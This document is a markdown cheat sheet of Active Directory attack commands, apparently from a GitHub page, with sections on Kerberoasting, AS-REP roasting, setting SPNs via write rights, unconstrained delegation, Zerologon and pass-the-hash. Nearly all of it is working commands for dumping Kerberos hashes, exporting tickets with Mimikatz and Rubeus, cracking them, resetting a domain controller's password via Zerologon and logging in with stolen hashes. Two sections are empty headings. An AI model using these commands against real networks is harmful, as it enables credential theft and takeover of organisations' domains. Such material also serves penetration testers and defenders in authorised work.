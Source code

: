 ## Kerberoasting
> - only for accounts that have SPNs
> - SPN accounts can use services and use silver ticket 
```
# Get SPN 
Get-NetUser -SPN (powerview)
ldapsearch -h 10.10.10.100 -x -b "DC={domain},DC={domain}" | grep -i serviceprincipalname

# Get SPN AD module
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName

# Request a TGS
Add-type -AssemblyName System.IdentityModel 
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "{ServicePrincipalName}"

# Export the SPN hash
Invoke-Mimikatz -Command '"kerberos::list /export"'
GetUserSPNs.py -request -dc-ip {ip} {domain}/{service name}

# Bruteforce
python.exe .\tgsrepcrack.py .\10k-worst-pass.txt {ticket}.kirbi
```
## Asrep roast
> - for users who have kerberos preauth disabled
```
# Powerview_dev:
Get-DomainUser -PreauthNOtRequired -Verbose

# ActiveDirectory Module:
Get-ADUser -Filter {DoesNOtRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth

# AS-rep dump
. .\ASREPRoast.ps1
Get-ASREPHash -UserName {username} -Verbose

# using Rubeus
.\Rubeus.exe asreproast /format:hashcat /outfile:hashes.asreproast


# no access
GetNPUsers.py -request -dc-ip 10.10.10.100 {domain}/
GetNPUsers.py -request -dc-ip 10.10.10.100 {domain}/{useraccount}
```
## SetSPN
> - for accounts that have generic write/all over a user
> - sets a SPN over an account 
```
# find users with ACL rights
Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentityReferenceName -match "{USERS}"}

# PowerView_Dev:
Get-DomainUser -Identity {username} | select serviceprincipalname

# AD module
Get-ADUser -Identity {username} -Properties ServicePrincipalName | select ServicePrincipalName

# set SPN
Set-DomainObject -Identity {username} -Set @{serviceprincipalname='dcorp/something'}

Set-ADuser -Identity {username} -ServicePrincipalNames @{Add='dcorp/something'}

# Request for TGS
Add-type -AssemblyName System.IdentityModel 
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "{ServicePrincipalName}"

# Export the SPN hash
Invoke-Mimikatz -Command '"kerberos::list /export"'

# Bruteforce
python.exe .\tgsrepcrack.py .\10k-worst-pass.txt {ticket}.kirbi
```
## Constrained/Unconstrained Delegation
### Unconstrained
> - allow a server to request any computer/service in the domain
> - DC will always have unconstrained delegation
> - requires local admin
```
# Discover Computers with unconstarined delegation via powerview
Get-NetComputer -UnConstrained

# Find Domain Admin tickets
Invoke-mimikatz -command '"sekurlsa::tickets"'
klist

# Export ticket
Invoke-mimikatz -command '"sekurlsa::tickets /export"'

# PTH
Invoke-mimikatz -command '"kerberos::ptt {filepath}.kirbi"'
```
### Constrained delegation
```

```
## Zerologon
```
# Download the file
git clone https://github.com/risksense/zerologon.git
python3 set_empty_pw.py DC 10.10.10.100

# Hashdump
secretsdump.py -hashes:31d6cfe0d16ae931b73c59d7e0c089c0 '{DOMAIN}/{COMPUTER}$@{IP}'

# PTH
evil-winrm -i 10.10.10.100 -u {username} -H "{HASH}"
```

## Trust Abuse
```

```